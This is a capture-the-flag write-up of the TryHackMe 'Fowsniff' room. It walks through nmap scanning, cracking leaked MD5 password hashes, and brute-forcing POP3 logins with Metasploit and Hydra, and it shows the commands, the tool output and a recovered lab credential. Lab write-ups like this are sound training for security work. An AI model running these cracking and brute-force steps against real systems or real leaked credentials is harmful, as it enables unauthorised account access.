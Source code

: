 # Fowsniff CTF | Write-up (THM)

![fowsniff_ctf](https://github.com/user-attachments/assets/de0f68ca-d3eb-4048-a092-f0a648951d6a)

## Enumeration
#### On deploying the machine in the room, I get the following IP address for the machine: ```10.10.157.167```
#### So lets try to find out what ports and services are open using nmap . The command I use generally for nmap is 
```
nmap -sV -vv <machine_ip>
```
#### So lets run that scan here: ```nmap -sV -vv 10.10.157.167``` and we see the following results:
![image](https://github.com/user-attachments/assets/6ebb06bc-c4f5-4590-b5b9-6a0cd87bf7f1)

#### As we can see, ports 80, 110 and 143 are the ports which seem to be open from the common ports. 
Port 80 is for HTTP. <br>
Port 110 is for POP3.<br>
Port 143 for IMAP.<br>

#### Lets take a look at the website  .
![image](https://github.com/user-attachments/assets/ca653db2-966c-4953-bf95-021068575ce5)
#### On the page we see that Fowsniff's internal system has been compromised and employee usernames and passwords may have been exposed. Also, the attackers managed to hack the official ```Twitter account @fowsniffcorp```, and sensitive information may have been exposed by the attackers through this account! Let's see if they actually did it 

#### When checking the Twitter account ```@fowsniffcorp```, we see:
![image](https://github.com/user-attachments/assets/8cc0076b-1fdb-4be5-8ff5-10c7b241feab)
#### It seems to have been hacked, as expected. The attacker seems to have leaked the passwords as can be seen in the pinned tweet. Let's open the pastebin link to see the file.

By going to ```https://pastebin.com/NrAqVeeX``` we get the following password hashes with email addresses:
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
```
#### Since these are all MD5 encrypted passwords, we can try to crack them. But before we do that, I just wanted to point out this recent tweet from the hacked FowSniff Corp account:
![image](https://github.com/user-attachments/assets/26b02afe-1716-44a1-85fd-654d317c04d9)
#### This indicates that the sysadmin has the following credentials:

stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd

## Hash Cracking
#### Let's crack this hash using an online tool, ```CrackStation```
![image](https://github.com/user-attachments/assets/c9ebf919-1fd9-4166-821b-c40e017a5958)

#### As we can see, CrackStation was able to crack all the partitions except one, which is the one for the system administrator.

#### Now lets try to see if we can brute force the pop3 login using metasploit, as asked in one of the questions in the room.
On opening ```msfconsole``` and doing ```search pop3``` , we get the first option as ```auxiliary/scanner/pop3/pop3_login``` . Seems like we can brute force email logins using this module.
Lets use this module to brute force the login. First, select that module to use using ```use auxiliary/scanner/pop3/pop3_login``` . (Tip: we can also use the module # in the search results, 0 here, like ```use 0``` to directly select the corresponding module number).

#### Now once we selected to use the module, we can show the options we need to set using ```show options``` .

![image](https://github.com/user-attachments/assets/c62ca615-6885-44a8-889e-76e83bbc103f)

#### Use Metasploit module for brute forcing the POP3 service:
```
msfconsole
use auxiliary/scanner/pop3/pop3_login
set RHOSTS (the machine we are attacking)
set USER_FILE username.txt
set PASS_FILE password.txt
run
```
![image](https://github.com/user-attachments/assets/03f4c981-785e-4d90-9ca5-1a3d2a701ce8)
POP3 Username and Password brute force results

##### it seems worked.
```
seina:scoobydoo2
```
## However, ```Hydra``` is faster
```
 hydra -L usernames.txt -P passwords.txt pop3://<machine_ip>
```

```
hydra -L usernames.txt -P passwords.txt pop3://10.10.157.167
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-20 19:05:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 72 login tries (l:9/p:8), ~5 tries per task
[DATA] attacking pop3://10.10.157.167/
[110][pop3] host: 10.10.157.167   login: seina   password: scoobydoo2
1 of 1 target successfully completed, 1 valid password found
```
#### We confirm that 1 account is still valid: ```seina:scoobydoo2```
